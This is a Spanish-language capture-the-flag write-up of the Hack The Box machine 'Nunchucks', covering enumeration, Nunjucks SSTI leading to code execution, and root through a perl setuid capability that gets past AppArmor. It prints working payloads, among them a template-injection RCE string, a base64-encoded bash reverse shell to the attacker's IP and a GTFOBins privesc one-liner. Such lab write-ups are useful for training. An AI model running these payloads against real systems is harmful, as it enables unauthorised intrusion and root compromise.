# Nunchucks



- Launchpad: Focal
- /etc/hosts: nunchucks.htb
-
```bash
whatweb http://nunchucks.htb
```

http://nunchucks.htb [301 Moved Permanently] Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.129.95.252], RedirectLocation[https://nunchucks.htb/], Title[301 Moved Permanently], nginx[1.18.0]
https://nunchucks.htb/ [200 OK] Bootstrap, Cookies[_csrf], Country[RESERVED][ZZ], Email[support@nunchucks.htb], HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.129.95.252], JQuery, Script, Title[Nunchucks - Landing Page], X-Powered-By[Express], nginx[1.18.0]

nginx 1.18.0
Express
Node.js

- Puerto 80 -> parece que nos redirecciona al 443 que es https
Vemos un portal de login/register
NO podemos registrar ningún usuario nuevo



Ni tampoco logearnos



- Con wfuzz no parece haber subdominios
Vengo del futuro, habría que haberlo hecho ocultando las respuestas con caracteres repetidos, es decir, salen muchas líneas con 30587 ch, por lo que añadiendo
```bash
--hh=30587
```

nos quedaremos con la respuesta 200 que de verdad sea correcta
```bash
wfuzz -c -t 200 --hh=30587 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.nunchucks.htb" https://nunchucks.htb
```

store.nunchucks.htb

- Verificar que hay conexión HTTPS y buscar algún subdominio o algo interesante
```bash
openssl s_client -connect nunchucks.htb:443
```



- Gobuster
```bash
gobuster dir -k -u https://nunchucks.htb -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x html,php,txt
```



**ERROR** de Length 45, nos dice que exluyamos la longitud de respuesta
Añadimos
```bash
--exlude-lenght 45
```

```bash
gobuster dir -k -u https://nunchucks.htb -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200 -x html,php,txt --exclude-length 45
```



No parece haber nada interesante,
/assets -> no nos deja entrar aunque vemos que hay css, js y images

- Probamos a escanear puertos por UDP ya que se menciona que el software puede tener lightbox (popup) con vídeos
```bash
sudo nmap -sU --top-ports 100 --open -n 10.129.95.252
```





- Comprobando si el servidor es vulnerable a inyeciones NoSQL y SQL, vemos que el formato en el que se le envía por POST los datos es en JSON, si eliminamos el json de la petición con BURP y ponemos cualquier cosa, rompemos la petición y nos envía un mensaje de error lickeando ciertos paths



Vemos que la raiz en la que está levantado el servidor es /var/www/nunchucks

- El servidor funciona con una api



- Escaneamos subdominios de nuevo pero con Gobuster xd
```bash
gobuster vhost -u https://nunchucks.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt --append-domain -t 200 -r -k
```



La agregamos al /etc/hosts

- Tenemos una pag nueva



- Volvemos a realizar un escaneo para esta web
```bash
gobuster dir -u https://store.nunchucks.htb -w /usr/share/seclists/Discovery/Web-Content/common.txt -k --exclude-length 45 -x php,html,js,txt -t 200
```

/assets

- Podremos enviar un email, vamos a jugar



- Vemos que al enviar un correo se nos notifica por pantalla el correo al que hemos mandado, si el control no está bien validado podría acontecerse algún tipo de inyección


- En formato *x-www-form-urlencoded* también funciona el envío
Intentamos una NoSQL a raiz de que usa Express y NodeJS, si en el cuerpo envíamos
```bash
email[$ne]=toto
```

Nos devuelve un  **undefined** -> Posiblemente se haya acontecido



- Vemos que acontece un SSTI





```bash
{{7*7}}
```

nos devuelve un *49*

- Buscamos en payloadallthethings por **Server Site Template Injection** para derivar a un RCE
Si intentamos ejecutar un comando con el onliner
```bash
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```



Obtenemos un **502 bad gateway** -> Eso es porque este SSTI ocurría en un servidor de python, aquí ocurre en uno de node.js, por lo que deberemos crear un payload de Javascript

- El sistema que corre detrás tiene pinta de ser un nunjucks por el nombre de la máquina, es un stack de node.js -> Buscamos payloads de SSTI para nunjucks
Si buscamos *nunjucks stti payload rce* encontramos`{{range.constructor("return+global.process.mainModule.require('child_process').execSync('id')")()}}`



Tenemos RCE

- No nos deja enviar la bash por oneliner a priori, por lo que base64encodearemos el archivo de la bash y lo pipearemos con bash en el payload



Dentro del payload irá
```bash
echo IyEvYmluL2Jhc2gKCmJhc2ggLWkgPiYvZGV2L3RjcC8xMC4xMC4xNC45Ni80NDMgMD4mMQo= | base64 -d | bash
```

david

## Escalada

-
```bash
sudo -l
```

nada
-
```bash
lsb_release -a
```

focal
-
```bash
hostname -I
```

misma ip
-
```bash
id
```

Nada raro
-
```bash
find / -perm -4000 2>/dev/null
```

sospechoso *pppd* y *at* -> no encuentro via a priori
-
```bash
cat /etc/passwd | grep bash
```

*david* y *root*

- Vemos en el archivo *server.js* que el servidor corre en el puerto 8080 pero si le hacemos curl nos devuelve un 301 mooved permanently
Confirmamos que el stack es un nunjucks

- En */var/www/store.nunchucks/node_modules/mysql/Changes.md*
```bash
cat Changes.md | grep password -C 5
```



Encontramos posibles credenciales para mysql me:secret

- Intentamos entrar a mysql
```bash
mysql -u mmuser -p
```

No hay suerte aunque parece que sí que hay corriendo un sql en el 3306



- Vemos otro leakeo de credenciales para mysql en */var/www/store.nunchucks/controllers/routes.js*



newsletter_admin:StoreNLetters2021
```bash
mysql -u newsletter_admin -p
```

msql
```
show databases;
```

newsletter
```
use newsletter;
show tables;
```

```bash
select * from users;
```

Nos devuelve los logs de nuestra interacción con la web

Buscamos en la database de *information_schema* pero tampoco parece haber nionguna tabla de usuario útil

- Probamos reutilización de credenciales de mysql para el usuario *david*
Nada

- Buscamos en directorio de dominio principal *nunchucks.htb*
Nada

- En */opt* encontramos una carpeta de backup y un script en perl que se encarga de hacer un backup
**backup.pl**



Dentro del script se asciende el privilegio a root con
```bash
setuid(0)
```

y podemos ejecutarlo siendo david -> vía de privesc

- Al usarse el comando
```bash
system()
```

podremos intentar inyectar un comando con ';' en algún punto. No se me ocurre nada a priori

- Listamos capabilities
```bash
getcap / -r /dev/null
```



perl tiene una capabilite que permite ejecutar setuid

- En GTFOBins buscamos por capabnilities de perl y nos da un onliner para ejecutar comandos como root
```bash
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh"'
```

No nos ejecuta la bash nos dice permiso denegado

En cambio si ejecutamos otro comando como whoami sí nos devuelve el resultado
```bash
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "whoami"'
```



- Parece que hay algunos comandos que permite ejecutar y otros que no, esto es raro porque con la capability que tiene, debería permitirnos ejecutar cualquier comando
- Puede ser que haya un SELinux detrás con algún permiso especial configurado



- No tiene mucha pinta de que sea esto porque es a nivel de capabilities no de reglas de acceso
Buscamos alternativas "Selinux alternatives"
Vemos AppArmor



Si buscamos qué es AppArmor vemos que encaja perfectamente con lo que parece que está ocurriendo en nuestro caso con las capabilities



- Buscamos en el sistema por el string *apparmor* y quitamos los matches que no nos interesen
```bash
find / -iname \*apparmor\* 2>/dev/null | grep -vE "proc|var|share"
```



En */etc/apparmor.d/* encontramos que hay un archivo de **perl**



Vemos que nos deniega usar ciertos comandos y nos permite otros como *whoami, id, ls, cat backup.pl*

- Buscamos en google "apparmor bugs perl"
https://bugs.launchpad.net/apparmor/+bug/1911431



Nos dice que bajo el uso de scripts con el shebang *#!/usr/bin/perl*, AppArmor no puede evitar que se ejecute desde cualquier sitio
- Qué es un shebang (*#!/xxx/xxx*) ->



- Nos crearemos entonces un script en sh como hace el ejemplo y en el código haremos la ejecución que nos dice GTFOBins para intentar ejecutar comandos privilegiados con la capabily
```bash
cd /tmp
nano privesc.sh
```



```bash
chmod u+x privesc.sh
./privesc.sh
```

root
